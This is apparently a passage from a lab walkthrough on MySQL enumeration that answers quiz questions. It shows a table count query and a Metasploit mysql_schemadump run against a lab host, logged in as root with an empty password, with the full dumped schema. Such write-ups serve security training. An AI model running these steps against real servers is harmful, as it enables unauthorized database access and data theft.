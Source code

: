 > 4. How many records are present in table “authors”? This table is present inside the “books” database.

Answer: `10`

```bash
MySQL [books]> select count(*) from authors;
+----------+
| count(*) |
+----------+
|       10 |
+----------+
1 row in set (0.000 sec)
```

> 5. Dump the schema of all databases from the server using suitable metasploit module?

```bash
msf5 > use auxiliary/scanner/mysql/mysql_schemadump 
msf5 auxiliary(scanner/mysql/mysql_schemadump) > options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS                            yes       The target address range or CIDR identifier
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads
   USERNAME                          no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS 192.15.56.3
RHOSTS => 192.15.56.3
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD ""
PASSWORD => 
msf5 auxiliary(scanner/mysql/mysql_schemadump) > exploit

[+] 192.15.56.3:3306      - Schema stored in: /root/.msf4/loot/20240627155300_default_192.15.56.3_mysql_schema_670211.txt
[+] 192.15.56.3:3306      - MySQL Server Schema 
 Host: 192.15.56.3 
 Port: 3306 
 ====================

---
- DBName: books
  Tables:
  - TableName: authors
    Columns:
    - ColumnName: id
      ColumnType: int(11)
    - ColumnName: first_name
      ColumnType: varchar(50)
    - ColumnName: last_name
      ColumnType: varchar(50)
    - ColumnName: email
      ColumnType: varchar(100)
    - ColumnName: birthdate
      ColumnType: date
    - ColumnName: added
      ColumnType: timestamp
- DBName: data
  Tables: []
```